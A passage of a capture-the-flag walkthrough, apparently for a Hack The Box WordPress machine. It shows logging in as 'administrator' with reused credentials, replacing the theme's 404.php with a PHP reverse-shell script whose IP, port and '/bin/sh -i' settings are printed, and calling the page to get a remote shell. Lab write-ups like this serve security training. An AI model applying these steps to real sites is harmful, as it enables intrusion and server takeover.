 Lets use those credentials into the wordpress login. But that not work. So lets keep trying now with some default user, like `admin` or `administrator`.

And looks like `administrator` works.

![[Pasted image 20210704164004.png]]

Poking around the page, we know that there are so many ways to get a reverse shell from a wordpress page, so lets do the best one (in my opinion).

Lets go to the theme editor.

![[Pasted image 20210704164601.png]]

And now change the theme file to the `404 template(404.php)`. here we are gonna create and `php reverse shell`, we can do the script by ourself or you can check for one on your machine using `locate`. 

Lets do the second option.

``` bash
locate php-reverse-shell
locate: warning: database ‘/var/cache/locate/locatedb’ is more than 8 days old (actual age is 40,0 days)
/usr/share/beef-xss/modules/exploits/m0n0wall/php-reverse-shell.php
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php
```

You can use the one you want but check the documentation of the scripts, change the things the say you must change, like `IP` and `PORT`.

``` bash 
  47   │ set_time_limit (0);
  48   │ $VERSION = "1.0";
  49   │ $ip = '127.0.0.1';  // CHANGE THIS
  50   │ $port = 1234;       // CHANGE THIS
  51   │ $chunk_size = 1400;
  52   │ $write_a = null;
  53   │ $error_a = null;
  54   │ $shell = 'uname -a; w; id; /bin/sh -i';
  55   │ $daemon = 0;
  56   │ $debug = 0;
```

Lets upload to the editor for `404.php`. after that we must go to the content where is the script we upload. if the editor give you an error you just need to change the theme to edit.

![[Pasted image 20210704174544.png]]
![[Pasted image 20210704174220.png]]

``` bash
http://spectra.htb/main/wp-content/themes/twentynineteen/404.php
```
